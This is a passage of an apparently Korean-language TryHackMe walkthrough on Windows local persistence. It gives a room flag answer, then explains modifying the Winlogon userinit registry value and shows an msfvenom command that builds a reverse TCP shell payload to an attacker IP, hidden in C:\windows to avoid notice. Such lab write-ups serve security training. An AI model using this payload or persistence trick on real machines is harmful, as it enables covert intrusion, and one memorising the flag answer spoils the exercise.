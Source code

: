 답변: THM'LET_ME_HOLD_THE_DOOR_FOR_YOU'

# 플래그 12

새로운 날, 새로운 IP 주소들...

<div class="content-ad"></div>

Winlogon을 악용할 수도 있습니다. Winlogon은 인증 후 프로필을 로드하는 역할을 합니다. 핵심 개념은 위와 유사합니다. 로그인은 우리의 쉘을 비활성화합니다. 이를 달성하기 위해 레지스트리 키를 변경할 것입니다. HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\ 내에서 userinit 또는 shell을 변경하여 액세스를 얻을 수 있습니다.

이 방에서는 플래그를 얻기 위해 userinit를 사용해야 합니다. 그러나 두 가지 방법 모두 동일합니다.

다시 한 번 msfvenom을 사용하여 페이로드를 생성할 것입니다:

```js
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.213.167 LPORT=4452 -f exe -o revshell.exe
```

<div class="content-ad"></div>

우리는 Python3를 사용하여 페이로드를 전송할 것입니다:

보시다시피, 처음에 포트를 포함시키는 것을 잊었습니다 — 쉽게 수정할 수 있었어요!

피해자가 인지하기 어렵도록 C:\windows로 페이로드를 이동시킬 거예요. 실제로는 위치를 더 은폐할 것이지만, 이 연습을 위해서는 그 정도만 이해하는 것이 적당합니다.

<img src="/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_77.png" />

<div class="content-ad"></div>

이제 레지스트리 대상 위치를 조정할 것입니다. 이 경우에는 명령을 대체하는 것이 아니라 userinit에 추가 지시사항을 추가하는 것입니다:

![이미지](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_78.png)
